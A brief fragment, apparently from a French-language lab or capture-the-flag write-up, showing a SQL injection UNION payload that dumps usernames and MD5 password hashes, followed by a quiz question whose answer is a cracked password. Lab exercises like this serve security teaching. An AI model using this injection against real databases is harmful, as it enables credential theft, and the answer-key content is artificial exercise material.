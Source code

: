 ```
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7 
ID: ' UNION SELECT user, password FROM users;-- - 
First name: smithy 
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
- Quel est le mot de passe de l’utilisateur « pablo» ?
	- **letmein**
